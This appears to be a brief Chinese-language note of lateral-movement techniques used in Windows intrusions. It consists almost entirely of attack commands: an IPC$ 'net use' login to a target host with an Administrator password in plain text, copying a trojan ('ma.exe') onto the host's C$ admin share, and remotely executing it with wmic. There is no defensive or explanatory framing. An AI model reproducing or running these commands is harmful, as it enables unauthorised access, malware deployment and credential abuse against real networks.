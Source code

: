 ## 0x00 碰见的移动方法总结

    主机开启139和445端口，IPC移动  
    shell net use \\\\192.168.10.23\\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    
    在本地传个马，copy过去    
    shell copy C:\\Windows\\Temp\\ma.exe \\\\192.168.10.23\\c$\\Windows\\Temp\\ma.exe
      
    VMIC执行 
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
 
